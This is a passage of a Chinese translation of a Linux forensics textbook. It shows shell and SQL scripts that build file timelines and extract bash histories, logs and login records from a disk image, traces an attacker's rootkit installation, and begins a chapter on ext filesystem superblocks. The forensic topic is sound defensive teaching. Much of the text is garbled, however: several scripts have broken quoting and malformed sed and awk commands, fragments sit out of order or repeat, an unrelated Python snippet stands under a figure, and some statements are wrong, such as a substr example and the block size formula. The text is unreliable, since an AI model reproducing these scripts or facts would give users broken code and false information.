select "A", accesdate, accxtime, recno from files;

insert into timeline (Operation, Date, Time, recno)

select "M", modifydate, modifytime, recno from files;

insert into timeline (Operation, Date, Time, recno)

select "C", created, createtime, recno from files;

EOF
```


此脚本中有一个技术需要解释，因为它在书中之前还没有出现过。相关的行是 `cat << EOF | mysql $1 -u root -p`。这种结构会将从下一行开始直到遇到后面的字符串（在我们的案例中是 `EOF`）为止的所有内容输出（`cat`）。所有行都会通过管道传递给 `mysql`，它针对传入的数据库（`$1`）运行，用户为 `root` 且必须提供密码。

查看此脚本中的 SQL，我们可以看到创建了一个包含字符操作代码、日期、时间和记录号的表。在创建表后，会执行三个 `insert` 语句，将访问、修改和创建时间戳插入表中。注意，`timeline` 中的 `recno` 是 `files` 表的主键。注意由于我们有一个包含所有三个时间戳的表，就可以快速方便地创建时间线。该脚本在我的笔记本电脑上运行不到两秒。

为了方便起见，我创建了一个接受数据库名称和起始日期并构建时间线的 Shell 脚本。该脚本也使用了上一个脚本中的新技术。注意，如果你倾向于使用标准美国日期格式以外的内容，可以使用此脚本中的 `str_to_date` 函数更改格式字符串。

```bash
#!/bin/bash

### print-timeline.sh

### 输出时间线的简单 shell 脚本。

### 为 PentesterAcademy <starting date>

### Dr. Phil Polstra (@ppolstra)

usage () {

  echo "usage: $0 <database>"

  echo "从数据库获取时间线的简单脚本"

  exit 1

}

if [ $# -lt 2 ]; then

  usage

fi

cat << EOF | mysql $1 -u root -p

select Operation, timeline.date, timeline.time,

filename, permissions, userid, groupid

from files, timeline

where timeline.date >= str_to_date("$2", "%m/%d/%Y") and

files.recno = timeline.recno

order by timeline.date desc, timeline.time desc

EOF
```

此时我可能应该提醒你，我们时间线中的时间戳可能被更复杂的攻击者更改过。我们将在书后的部分学习如何检测这些更改。即使是知道修改这些时间戳的攻击者，也可能漏掉几个文件，而这些文件将让你洞察到发生了什么。

上面的脚本是以 2015 年 3 月 1 日作为起始日期运行的。回顾我们的现场分析，像 `netstat` 和 `lsof` 等命令执行失败，这导致我们认为系统可能被 rootkit 感染。图 6.16 中的高亮部分显示 Xing Yi Quan rootkit 于 2015-03-05 23:00:08 被下载到 `john` 用户的 Downloads 文件夹中。如图 6.17 的高亮部分所示，下载的压缩包在同一天的 23:01:10 被解压。



### 图 6.16
显示下载 rootkit 的证据。



### 图 6.17
rootkit 压缩包被解压的证据。

攻击者似乎注销了登录，直到 3 月 9 日才回来。那时他似乎又阅读了 rootkit 的 README 文件，然后构建了 rootkit。支持这一点的证据可以在图 6.18 中找到。目前不清楚攻击者为什么在构建和安装 rootkit 之前等待了几天。查看目标系统上的 README 文件表明该攻击者缺乏经验。在时间线中，搜索字符串 "xingyi" 有 266 次匹配。rootkit 似乎被反复运行过。这可能是由于系统崩溃、重启或攻击者的经验导致的。



### 图 6.18
显示正在构建并安装 rootkit。

我们利用几个元数据数据库表所能做的事情仅仅是冰毛一角。你可以心所欲地进行查询。我们现在将转向你在挂载镜像时可能想要检查的其他常见事项。

## 检查 BASH 历史

在我们的现场响应期间，我们使用脚本来提取用户的 bash 命令历史。在这里我们将做类似的操作，只是我们使用了文件系统镜像。我们还可以选择性将结果直接导入数据库。执行所有操作的脚本如下。

```bash
#!/bin/bash

#
get-histories.sh
# 获取所有用户 bash 历史文件的简单脚本

### 由 Dr. Phil Polstra (@ppolstra) 开发
### 用于 PentesterAcademy.com.

usage () {
  echo "usage: $0 mount point of root> [database name]"
  echo "获取用户历史并可选地将其
  存储在数据库中的简单脚本"
  exit 1
}

if [ $# -lt 1 ]; then
  usage
fi

olddir=$(pwd)
cd $1

### 仅查找文件
find home -type f -name ".bash*" -exec awk '{ print "\";0 }' \; /tmp/histories.csv

# 对 root 用户重复操作
find root -type f -name ".bash*" -exec awk '{ print "\";0 }' \; >> /tmp/histories.csv

cd "$olddir"

if [ $# -gt 1 ]; then
  chown mysql:mysql /tmp/histories.csv
  mysql $2 -u root -p << EOF
create table if not exists histories (
  historyFilename(2048) not null,
  historyCommand varchar(2048) not null,
  recno bigint not null auto_increment,
  primary key(recno)
);

load data infile "/tmp/histories.csv"
into table histories
fields terminated by ';'
enclosed by '"'
lines terminated by '\n';
EOF
fi
```


在第 3 章中，我们的现场响应脚本只是显示了横幅、历史文件内容和页。如果我们希望将结果导入电子表格和/或数据库，这种格式是不可行的。为了获得便于导入的输出，我们使用 `awk`。

读者可能不熟悉 `awk`。它是由 Alfred Aho、Peter Weinberger 和 Brian Kernighan 在 20 世纪 70 年代于贝尔实验室创建的。名字来自作者姓氏的首字母。`awk` 是一种文本处理语言。`awk` 最常用的用法是打印文本行中的位置字段。

简单的 `awk` 用法最好通过示例来学习。例如，命令 `echo "one two three" | awk '{ print $1 $3 }'` 将输出 "one three"。



图 6.19
在 PFE 主题系统上运行此脚本的部分结果如图 6.19 所示。

## 从镜像文件中提取 bash 命令历史

一旦历史记录加载到数据库，就可以使用 `select * from histories order by recno` 轻松地显示。这将提供所有用户的历史记录。请注意，每个账户的历史记录将按照该用户的顺序呈现，但无法判断这些命令是何时执行的。显示单个用户 bash 历史的正确查询语句：`select historyCommand from histories historyFilename like '%%username%' order by recno;`

运行查询 `select historyCommand from histories where historyFilename like %.johnh* order by recno;` 的结果如图 6.20 所示。从这些历史中，我们可以看到虚拟用户 john 执行了命令查看还有谁登录以及他们执行了什么命令，输出了密码文件，并切换到了两个不应具有登录权限的用户账户。



图 6.20

攻击者创建的虚拟账户的 bash 命令历史。请注意正在运行的命令也十分可疑。

图 6.21 显示了 john 账户 bash 历史中的几个有趣的命令。可以看出，该用户创建了 johnnh 账户，将 `/bin/true` 复制到 `/bin/false`，为 whoopsie 和 lightdm 创建了密码，将 `/bin/bash` 复制到 `/bin/false`，编辑了 group 组文件，将 john 用户的家目录从 `/home/john` 移动到 `/home/john`（这导致目录被隐藏），编辑了密码文件，显示了 sed 的帮助页，使用 sed 修改了密码文件，并安装了 rootkit。将 `/bin/bash` 复制到 `/bin/false` 可能是为了允许系统账户登录。这可能也是不断弹出“检测到系统问题”消息的来源之一。

```python
import os
import sys
import glob
import gzip
import datetime
def get_logs(directory='/var/log'):
    logs = []
    if not os.path.exists(directory):
        print(f"Directory {directory} does not exist.")
        return logs
    for log_file in glob.glob(os.path.join(directory, '**')):
        try:
            stat = os.stat(log_file)
            mtime = datetime.datetime.fromtimestamp(stat.st_mtime)
            logs.append({
                "file": log_file,
                "modified": mtime,
                "size": stat.st_size
            })
        except Exception as e:
            continue
    return sorted(logs, key=lambda x: x['modified'], reverse=True)
if __name__ == "__main__":
    all_logs = get_logs()
    for log in all_logs:
        print(f"File: {log['file']} | Modified: {log['modified']} | Size: {log['size']} bytes")
```

图 6.21

攻击者使用 john 账户进行多次操作的证据。

## 检查系统日志

作为调查的一部分，我们可能想要查看各种系统日志文件。这些文件位于 `/var/log` 下。正如我们之前讨论过的，某些日志位于子目录中，另一些位于主 `/var/log` 目录。除了少数例外外，这些都是文本日志。某些格式为 `<base log file>.n`（其中 n 是整数）的存档，且较旧的存档可能使用 `gzip` 压缩。这导致了 `syslog`、`syslog.1`、`syslog.2.gz`、`syslog.3.gz` 等日志文件的创建。

与第 3 章中的脚本非常类似的脚本允许我们捕获日志文件进行分析。使用前面的章节中的脚本，我们只捕获当前日志。如果存档日志可能与调查有关，以后可以随时从镜像中获取。我们的脚本如下。

```bash
#!/bin/bash
### get-logfiles.sh
# 用于获取所有日志并可选
# 存储在数据库中的简单脚本。
# 警告：此脚本运行可能需要很长时间！
# 由 Phil Polstra 博士 (@ppolstra) 开发，用于
### PentesterAcademy.com。
usage() {
  echo "usage: $0 <point of root> [database name]"
  echo "Simple script to get log files and"
  echo "optionally store them to a database."
  exit 1}
if [ $# -lt 1 ]; then
  usage
fi
# 如果旧文件存在则将其删除
if [ -f /tmp/logfiles.csv ]; then
  rm /tmp/logfiles.csv
fi
# 只查找文件，排除带有数字的文件，因为它们是旧日志
# 对找到的所有文件执行 echo, cat, 和 echo
olddir=$(pwd)
cd $1/var
find log -type f -regex posix-extended \
  -regex '/[a-zA-Z.]+/([a-zA-Z.]*' \
  -exec awk '{ print :"$0' }' \
  tee -s /tmp/logfiles.csv
cd $olddir
if [ $# -gt 1 ]; then
  chown mysql:/tmp/logfiles.csv
fi
echo "Let's put that in the database"
cat << EOF | mysql $2 -u root -p
create table if not exists logs (
  logFilename varchar(2048) not null,
  logtextry varchar(2048) not null,
  recno bigint not null auto_increment,
  primary key(recno)
);
load data infile "/tmp/logfiles.csv"
into table logs
fields terminated by ';'
EOF
```

```bash
echo "and and unsuccessful logins."
echo "Results may be optionally stored in a database"
exit 1
if [[ $# -lt 1 ]]; then
  usage
fi
# use the last and lastb commands to display information
# use awk to create ; separated fields
# use sed to strip white space
echo "who-what:terminal-event;start;stop;elapsedTime;" \
  | tee /tmp/logins.csv
```


```bash
for logfile in $1/var/log/wtmp*
do
  last -aiFwx -f $logfile \
  awk '{print substr($0, 1, 8) "\"; substr($0, 10, 13) "\";' \ \
    substr($0, 23, 24) "\"; substr($0, 50, 24)
```
```sql
stop datetime,
elapsed varchar(12),
ip varchar(15),
recno bigint not null auto_increment,
primary key(recno);
load data infile "/tmp/logins.csv"
to table logins
fields terminated by ';'
enclosed by '"'
lines terminated by '\n'
ignore 1 rows
(who_what, terminal_event, @start, @stop, elapsed, ip)
set start=str_to_date(start, "%a %b e %H:%i:%s %Y");
stop=str_to_date(@stop, "%a %b e %H:%i:%s %Y");
create table login_fails (
who_what varchar(8),
terminal_event varchar(13),
start datetime,
stop datetime,
elapsed varchar(12),
ip varchar(15),
recno bigint not null auto_increment,
primary key(recno));
load data infile "/tmp/login-fails.csv"
to table login_fails
fields terminated by ';'
enclosed by '"'
lines terminated by '\n'
ignore 1 rows
(who_what, terminal_event, @start, @stop, elapsed, ip)
set start=str_to_date(start, "%a %b e %H:%i:%s %Y");
stop=str_to_date(@stop, "%a %b e %H:%i:%s %Y");
```

该脚本以通常的方式启动，在 `logfile in $1/var/log/wtmp*` 这一行之前非常简单。这是我们的第一个项。Bash 支持循环的多种变体。熟悉 C 和类似编程语言的读者已经见过 `for` 循环，这种循环通常用于遍历列表，其中迭代次数是预先知道的，并且在循环每一步都会递增（或递减）整数。Bash 支持这些类型的循环，还允许创建一个遍历匹配模式的文件的循环。

我们 `for` 循环中的模式将匹配登录日志文件 `wtmp` 以及任何相同的归档。下一行的 `do` 开始循环的代码块，七行后的 `done` 终止该循环。最后一个命令很直观，但紧随其后的一系列管道操作则不然了。按照惯例，将这个长命令拆分为子部分会更容易理解代码。

在之前的脚本中，我们已经见过 `awk`，包括使用位置参数作为 `$0` 和 `$1`。然而，`substr` 函数是新的。其格式为 `substr(some string, <starting index>, <max length>)`。例如，`substr("Hello there",1,4)` 将返回 "Hello"。注意，在许多其他语言和程序中，索引是从 1 开始的，而不是从 0。一旦你理解了 `substr` 如何工作，就会发现那条 `awk` 命令正在打印来自 `last` 的六个输出字段，并用分号分隔。这些字段包含了条目所指的内容、该条目对应的终端或事件、开始时间、经过时间和 IP 地址。

`last` 的格式化输出仍然存在一个小问题，即：在每个条目的分号之前有很多空格。这时 `sed` 编辑器介入了。`sed` 最常用的命令之一是替换命令，其格式为 `s/<search pattern>/<replacement pattern>/<options>`。`/` 是传统的分隔符，但用户可以使用不同的字符（`|` 是一个常见的选择）。`sed s[:space:]]*///g` 用于搜索分号前的零或多个空格，并将其替换为空，全局替换（使用 `g` 选项），这意味着匹配每行的第一项。第二个 `sed` 命令 `sed s[:space:]]+//g` 移除每行末尾的空格（IP）。这段代码与 `wtmp` 代码的处理逻辑相同。数据库代码与我们之前使用的类似。再次，唯一的复杂之处是将 `last` 的日期和时间输出格式化为 MySQL 的 `datetime` 对象。运行该脚本的某些输出如图 25 所示。注意 `last` 和 `lastb` 会生成空行，说明日志文件已创建。这会导致你的数据库中出现错误的条目。我的哲学是忽略这些条目，而不是向脚本中添加大量的复杂逻辑。

| 日期 | 时间 | 用户 | 源 IP | 状态 |
| --- | --- | --- | --- | --- |
| 2015-03-09 | 21:33:55 | lightdtm | 192.168.1.1 | |
| 2015-03-09 | 21:33:56 | lightdtm | 192.168.1.2 | |
| 2015-03-09 | 21:33:57 | lightdtm | 192.168.1.3 | |
| 2015-03-09 | 21:33:58 | lightdtm | 192.168.1.4 | |
| 2015-03-09 | 21:33:59 | lightdtm | 192.168.1.5 | |

图 25：运行该脚本针对目标系统的输出。

```bash
#!/bin/bash

usage () {
  echo "usage: $0 <mount point> [database name]"
  exit 1
}

if [ $# -lt 1 ]; then
  usage
fi

# 如果旧文件存在则将其删除
if [ -f /tmp/logfiles.csv ]; then
  rm /tmp/logfiles.csv
fi

olddir=$(pwd)
cd $1/var

for logfile in $(find . -type f -name '*'); do
  if echo $logfile | grep -q ".gz$"; then
    zcat $logfile | awk '{ print "\$logfile\" \$0 }' \
    | tee -a /tmp/logfiles.csv
  else
    awk '{ print "\$logfile\" \$0 }' $logfile \
    | tee -a /tmp/logfiles.csv
  fi
done

cd "$olddir"

if [ -gt 1 ]; then
# 后面是数据库逻辑...
```

```bash
#!/bin/bash

usage () {
  echo "usage: $0 <mount point> [database name]"
  exit 1
}

if [ $# -lt 1 ]; then
  usage
fi

# 如果旧文件存在则将其删除
if [ -f /tmp/logfiles.csv ]; then
  rm /tmp/logfiles.csv
fi

olddir=$(pwd)
cd $1/var

for logfile in $(find . -type f -name '*'); do
  if echo $logfile | grep -q ".gz$"; then
    zcat $logfile | awk '{ print "\$logfile\" \$0 }' \
    | tee -a /tmp/logfiles.csv
  else
    awk '{ print "\$logfile\" \$0 }' $logfile \
    | tee -a /tmp/logfiles.csv
  fi
done

cd "$olddir"

if [ -gt 1 ]; then
  chown mysql:mysql /tmp/logfiles.csv
  clear
  echo "让我们把这些放入数据库"
  cat << EOF | mysql $2 -p
  create table if not exists logs (
    logFilename varchar(2048) not null,
    logentry varchar(2048) not null,
    recno bigint not null auto_increment,


```
    primary key(recno)

  );

  fi

  load data infile "/tmp/logfiles.csv"

  into table logs

  fields terminated by ';'

  enclosed by ''

  lines terminated by '\n'

EOF

fi
```


图 26：运行该脚本针对目标系统的输出。

### 总结

在本章中，我们学习了如何从挂载的目标文件系统或文件系统提取信息。我们展示了许多在 LibreOffice 或如 MySQL 等数据库中对这些数据分析的方法。在下一章中，我们将深入研究 Linux 扩展文件系统，这允许我们检测被攻击者篡改的数据。

### 第7章

### 扩展文件系统

本章内容包含：

- 扩展文件系统的结构
- 超数据块 (Superblocks)
- 兼容、不兼容和只读兼容特性
- 组描述符 (Group descriptors)
- 节点 (Inodes)
- ext4 中的新特性
- 使用 Python 读取文件系统结构
- 使用 shell 脚本查找非位置文件
- 检测攻击者对元数据的篡改

### 扩展文件系统基础

运行 Linux 也有很多选择。这包括你对文件系统的选择。尽管如此，绝大多数 Linux 系统都使用了某种版本的 Linux 扩展文件系统。这些通常被称为 extN 文件系统，其中 N 是版本号（通常为 2、3 或 4）。`ext2` 文件系统对于不经常变化的分区（如启动分区）非常流行。绝大多数 Linux 发行版在通用文件系统（如 `/`、`/home`、`/usr`、`/opt` 等）上默认使用 `ext4`。

自然的问题是，扩展文件系统是在什么基础上扩展而来的？答案是 Unix 文件系统 (`UFS`)。虽然 extN 族是 UFS 的扩展，但它也是一种简化。UFS 中的某些特性对现代介质不再适用，因此它们被删除了以简化代码并提高性能。extN 族旨在具有良好的健壮性和性能。

`ext2` 通常被保留给静态文件系统是有原因的。`ext3` 和 `ext4` 都是日志文件系统，但 `ext2` 是非日志文件系统。什么是日志？在这种语境下，它不是对个人生活经历的记录。相反，日志被用于提高性能并减少数据损坏的概率。

以下是日志文件系统的工作原理。对介质的写入不会立即完成，而是将请求的更改写入日志中。当命令返回时，意味着要么整个事务已完成（所有数据已写入或更新），在这种情况下返回成功；如果命令无法成功完成，则文件系统将恢复到之前的状态。在计算机没有正常关机的情况下，可以使用日志将内容恢复到一致状态。拥有日志文件系统可以显著加快文件系统检查 (`fsck`) 过程。

扩展文件系统将信息存储在块中，块组织成块组 (`block groups`)。块的大小通常为 1024、2048 或 4096 字节。大多数介质遇到的是 512 字节扇区。因此，块的长度为 2、4 或 8 个扇区。对于熟悉 FAT 和 NTFS 文件系统的读者来说，Unix 或 Linux 中的一个块相当于 DOS 或 Windows 中的一个簇 (`cluster`)。块是磁盘空间最小的分配单元。

图 7.1 显示了块组的通用结构。请记住，每个元素都会出现在每个块组中。我们在本章稍后将看到 `ext4` 文件系统是高度自定义的。为了提高性能，某些元素可能会从特定组中移动或消除。

我们将在本章稍后详细描述图 7.1 中的每个元素。现在，我将提供这些项目的一些基本定义。启动块 (`boot block`) 正如其名，操作系统的启动代码。这可能用于现代系统，但为了向后兼容，仍然要求存在那里。超数据块 (`superblock`) 描述文件系统并告诉操作系统寻找各种元素（节点等）。组描述符描述每个块组的布局。节点（`inodes`，index nodes 的缩写）包含文件除名称以外的所有元数据。数据块用于存储文件和目录。位图 (`bitmaps`) 指明哪些节点和数据块处于占用状态。

| 启动块 | 块组 0 | 块组 N-1 |
| :--- | :--- | :--- |
| 超数据块 (1 块) | 组描述符 (多个块) | 数据位图 (1 块)，节点位图 (1 块)，节点表 (多个块)，数据块 (多个块) |

**图 7.1**
通用块组结构。注意，根据文件系统版本和特性，某些组件可能会从块组中省略。

扩展文件系统允许可选特性。这些特性分为三类：兼容、不兼容和只读兼容。如果操作系统不支持某个兼容特性，文件系统仍然可以安全地挂载。相反，如果操作系统缺乏对不兼容特性的支持，不应挂载该文件系统。当操作系统为只读兼容列表提供特性时，挂载文件系统是安全的，但仅限于只读方式挂载。如果你发现自己正在检查怀疑的攻击者的计算机，要记住他她可能正在使用非标准的扩展特性。

由 Brian Carrier 开发的 Sleuth Kit (`TSK`) 是一套用于文件系统分析的工具。其中工具 `fsstat` 允许你收集文件系统 (`fs`) 统计信息 (`stat`)。需要警告的是，该工具似乎有些过时，可能无法正确显示你最新版本 `ext4` 文件系统的所有特性。别担心，我们将在本章开发一些最新的脚本，它们将妥善处理截至目前的版本的 `ext4`（此外，你将拥有可以自己更新的 Python 代码）。

为了运行 `fsstat`，你必须先知道文件系统在镜像文件中的偏移量。回想我们在第 5 章中学过，可以使用 `fdisk` 工具来确定此偏移量。该命令的语法简单为 `fdisk <image file>`。如图 7.2 所示，PFE 镜像中的文件系统从扇区 2048 开始。

  

**图 7.2** 使用 `fdisk` 确定文件系统起始的偏移量。

一旦确定了偏移量，显示文件系统统计信息的命令就是 `fsstat -o <offset> <image file>`，即 `fsstat -o 2048 pfel.img`。对我们的 PFE 主体镜像运行此命令的局部结果如图 7.3 和图 7.4 所示。图 7.3 的结果显示我们有一个已正确卸载的 `ext4` 文件系统，它曾挂载在 `/`，具有 1,048,577 个节点和 4,194,048 KiB 块。截图中也显示了兼容、不兼容和只读兼容特性。从图 7.4 我们可以看到有128 个块组，每组有 8,192 个节点和 32,768 个块。我们还看到了前两个组的统计信息。

  

**图 7.3** `fsstat` 的结果 - 部分 1。

  

**图 7.4** `fsstat` 的结果 - 部分 2。

## 超数据块

现在我们对扩展文件系统有了全局视图，我们将深入研究每个主要组件，从超数据块开始。超数据块长度为 1024 字节，位于分区中启动块之后的 1024 字节（2 个扇区）。默认情况下，超数据会在每个块组中重复，但可以通过启用各种文件系统特性进行更改。

某些读者可能熟悉 FAT 启动扇区的 BIOS 参数块和扩展 BIOS 参数块。在 Windows 上，这些块系统包含了操作系统从磁盘读取文件所需的信息。超数据块为 Linux 系统执行类似的功能。超数据块包含的信息包括

- 块大小
- 总块数
- 每个块组的块数
- 第一块组之前的保留块数
- 节点总数
- 每组节点数
- 卷名
- 卷最后写入时间
- 文件系统挂载路径
- 文件系统状态（是否正常卸载）

在检查文件系统时，使用专门为此目的设计的十六进制编辑器可能会非常方便。此类编辑器是 Lsoft 的 Active@ Disk Editor。它是免费提供的，并且有 Linux 版本（以及 Windows 版本）。Active@ Disk Editor (`ADE`) 可以从 http://disk-editor.org 下载。`ADE` 具有许多很好的功能，包括解释常用文件系统结构（如超数据块和节点）的模板。目标系统的超数据块如图 7.5 中的 `ADE` 所示。我们将在本章稍后讨论各种文件系统特性时，详细介绍图 7.5 中的字段。目前，我认为：块大小（超数据块中偏移量 18）存储为 x，其中字节单位的块大小 = 2^(10 * x) = 1024 * 2。例如，存储的块大小为 2 对应 4 KB (4096 字节) 的块。表 7.1 总结了截至本文超数据块中可能存在的所有字段。表 7.1 的材料主要来自头文件 `/usr/src/<linux version>/fs/ext4/ext4.h`。


图 7.5
使用 Active@ Disk Editor 检查超级块。

# 表 7.1 超级块字段摘要。

| 偏移量 | 大小 | 名称 | 描述 |
|---|---|---|--|
| 0x0 | 4 | incount |  inode 总数。 |
| 0x4 | 4 | blockcount | 块总数。 |
| 0x8 | 4 | rblockcount | 此数量的块只能由超级用户分配。 |
| 0xC | 4 | freeblockcount | 空闲块数量。 |
| 0x10 | 4 | freeinodecount | 空闲 inode 数。 |
| 0x14 | 4 | firstdatablock | 第一个数据块。 |
| 0x18 | 4 | logblocksize | 块大小为 2 ^ (10 + logblocksize)。 |
| 0x1C | 4 | logclustersize | 簇大小为 (2 ^ logclustersize)。 |
| 0x20 | 4 | clusterpergroup | 每组的块数。 |
| 0x24 | 4 | clusterpergroup | 如果启用了 bigalloc，每组的簇数。 |
| 0x28 | 4 | inodepergroup | 每组的 inode 数。 |
| 0x2C | 4 | mtime | 挂载时间，自 epoch 以来的秒数。 |
| 0x30 | 4 | wime | 写入时间，自 epoch 以来的秒数。 |
| 0x34 | 2 | mntcount | 自上次 fsck 以来的挂载次数。 |
| 0x36 | 2 | maxmntcount | 需要进行 fsck 的挂载次数上限。 |
| 0x38 | 2 | magic | 魔数签名，0xEF53 |
| 0x3A | 2 | state | 文件系统状态。 |
| 0x3C | 2 | errors | 检测到错误时的行为。 |
| 0x3E | 2 | minorrevel | 次要修订级别。 |
| 0x40 | 4 | lastcheck | 上次检查时间，自 epoch 以来的秒数。 |
| 0x44 | 4 | checkinterval | 检查之间的最大时间（秒）。 |
| 0x48 | 4 | creatoros | 操作系统。其之一：可能是 0 = Linux |
| 0x4C | 4 | revel | 修订级别。其之一：0 或 1 |
| 0x50 | 2 | defresuid | 预留块的默认 uid。 |
| 0x52 | 2 | | 预留块的默认 gid。 |
| 0x54 | 4 | | 第一个非预留的 inode。 |
| 0x58 | 2 | inodesize | inode 结构的大小，单位为字节。 |
| 0x5A | 2 | blockgroupnr | 此超级块所属的块组号。 |
| 0x5C | 4 | featurecompat | 兼容性特性集标志。 |
| 0x60 | 4 | featurein | 不兼容的特性集。 |
| 0x64 | 4 | featureorcompat | 只读兼容的特性集。 |
| 0x68 | byte | uuid[16] | 卷的 128 位 UUID。 |
